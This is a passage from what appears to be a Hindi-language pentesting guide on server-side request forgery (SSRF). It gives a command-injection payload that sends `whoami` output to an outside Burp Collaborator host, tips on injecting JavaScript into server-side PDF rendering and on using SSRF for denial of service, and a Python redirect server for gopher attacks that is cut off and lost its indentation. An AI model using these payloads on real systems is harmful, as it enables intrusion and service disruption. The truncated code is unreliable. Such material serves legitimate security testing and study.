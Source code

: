 ## कमांड इंजेक्शन के साथ SSRF

एक पेलोड आज़माने लायक हो सकता है जैसे: `` url=http://3iufty2q67fuy2dew3yug4f34.burpcollaborator.net?`whoami` ``

## PDFs रेंडरिंग

यदि वेब पृष्ठ स्वचालित रूप से आपके द्वारा प्रदान की गई कुछ जानकारी के साथ एक PDF बना रहा है, तो आप **कुछ JS डाल सकते हैं जो PDF निर्माता** (सर्वर) द्वारा PDF बनाते समय निष्पादित किया जाएगा और आप SSRF का दुरुपयोग कर सकेंगे। [**यहाँ अधिक जानकारी प्राप्त करें**](../xss-cross-site-scripting/server-side-xss-dynamic-pdf.md)**.**

## SSRF से DoS तक

कई सत्र बनाएं और सत्रों से SSRF का लाभ उठाते हुए भारी फ़ाइलें डाउनलोड करने का प्रयास करें।

## SSRF PHP फ़ंक्शन

कमजोर PHP और यहां तक कि वर्डप्रेस फ़ंक्शंस के लिए निम्नलिखित पृष्ठ की जांच करें:

{% content-ref url="../../network-services-pentesting/pentesting-web/php-tricks-esp/php-ssrf.md" %}
[php-ssrf.md](../../network-services-pentesting/pentesting-web/php-tricks-esp/php-ssrf.md)
{% endcontent-ref %}

## Gopher के लिए SSRF रीडायरेक्ट

कुछ शोषणों के लिए आपको **रीडायरेक्ट प्रतिक्रिया भेजने की आवश्यकता हो सकती है** (संभवतः गॉफ़र जैसे विभिन्न प्रोटोकॉल का उपयोग करने के लिए)। यहाँ आपके पास रीडायरेक्ट के साथ प्रतिक्रिया देने के लिए विभिन्न पायथन कोड हैं:
```python
# First run: openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes
from http.server import HTTPServer, BaseHTTPRequestHandler
import ssl

class MainHandler(BaseHTTPRequestHandler):
def do_GET(self):
print("GET")
self.send_response(301)
```